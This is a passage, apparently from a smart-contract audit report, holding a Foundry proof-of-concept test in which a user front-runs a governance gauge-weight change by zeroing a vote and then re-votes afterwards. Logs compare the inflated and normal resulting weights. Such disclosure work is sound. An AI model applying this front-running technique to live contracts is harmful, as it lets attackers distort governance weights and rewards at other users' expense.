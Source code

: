 >        vm.stopPrank();
>
>        vm.startPrank(user1);
>        ve.createLock{value: 1 ether}(1 ether);
>        gc.vote_for_gauge_weights(gauge1, 10000);
>        uint weight = gc.get_gauge_weight(gauge1);
>        console.log("gauge's weight after voting: ", weight);
>        vm.stopPrank();
>
>        vm.prank(user1);
>        gc.vote_for_gauge_weights(gauge1, 0); // front-run transaction by user
>        vm.prank(gov);
>        gc.change_gauge_weight(gauge1, 1000000000000000000);
>
>        vm.startPrank(user1);
>        gc.vote_for_gauge_weights(gauge1, 10000); // back-run
>        weight = gc.get_gauge_weight(gauge1);
>        console.log("gauge's weight after changing weight: ", weight);
>        vm.stopPrank();
>    }
>
>        function testWithoutFrontRun() public { 
>        vm.startPrank(gov);
>        gc.add_gauge(gauge1);
>        gc.change_gauge_weight(gauge1, 0);
>        vm.stopPrank();
>
>        vm.startPrank(user1);
>        ve.createLock{value: 1 ether}(1 ether);
>        gc.vote_for_gauge_weights(gauge1, 10000);
>        uint weight = gc.get_gauge_weight(gauge1);
>        console.log("gauge's weight after voting: ", weight);
>        vm.stopPrank();
>
>        vm.prank(gov);
>        gc.change_gauge_weight(gauge1, 1000000000000000000);
>
>        weight = gc.get_gauge_weight(gauge1);
>        console.log("gauge's weight after government changes weight: ", weight);
>    }
>```
>
>```logs
>[PASS] testWithFrontRun() (gas: 702874)
>Logs:
>  gauge's weight after voting:  993424657416307200
>  gauge's weight after changing weight:  1993424657416307200
>```
>
>```logs
>[PASS] testWithoutFrontRun() (gas: 674264)
>Logs:
>  gauge's weight after voting:  993424657416307200
>  gauge's weight after government changes weight:  1000000000000000000
>```
